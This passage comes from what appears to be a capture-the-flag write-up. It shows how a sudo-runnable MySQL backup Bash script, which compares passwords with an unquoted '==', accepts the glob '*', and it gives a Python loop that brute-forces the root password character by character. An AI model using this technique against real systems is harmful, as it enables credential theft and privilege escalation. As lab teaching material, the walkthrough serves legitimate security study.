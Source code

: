 - Reads MySQL password from user input
- Check the password with a file we can't read in the /root directory
- Make a backup directory
- Create a MySQL dump and back up the database into the /var/backups/mysql directory

We can check out the /var/backups/mysql directory, but there isn't much useful in there. Looks like we'll have to try and figure out this password.

Keep in mind that the Bash script checks the password against the /root/.cache file with a '==' operator. The trick here is that we can use a wildcard character to match all possible passwords. We can test this against the binary and it works:

```
joshua@codify:/tmp$ sudo /opt/scripts/mysql-backup.sh
Enter MySQL password for root: // input: '*'
Password confirmed!
mysql: [Warning] Using a password on the command line interface can be insecure.
Backing up database: mysql
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
Backing up database: sys
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
All databases backed up successfully!
Changing the permissions
Done!
```

Now, we can actually use this to extract the password! For example, let's say the root password is 'password'. If we input '\*', it works since the wildcard matches to 'password'. However, if we input 'p\*', it will also work since the wildcard will match to 'assword'. However, if we input 'a\*', it won't work since the first character isn't an 'a'.

We can use this to create a script that bruteforces the password by testing each of the ASCII characters.

First, we'll import required libraries:

```python
import string
from subprocess import Popen, PIPE, STDOUT
```

Next, we need a string storing all of the characters that the password could contain:

```python
stuff = string.ascii_letters + string.digits // abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789
```

Set a password string and create a loop:

```python
passw = ""

for i in range(100):
	for j in stuff:
		input1 = passw + j + '*'

		p = Popen(['sudo', '/opt/scripts/mysql-backup.sh'], stdout=PIPE, stdin=PIPE, stderr=PIPE)
		stdout_data = p.communicate(input=input1.encode())[0]

		if b'Done' in stdout_data:
			passw = passw + j
			print(passw)
```
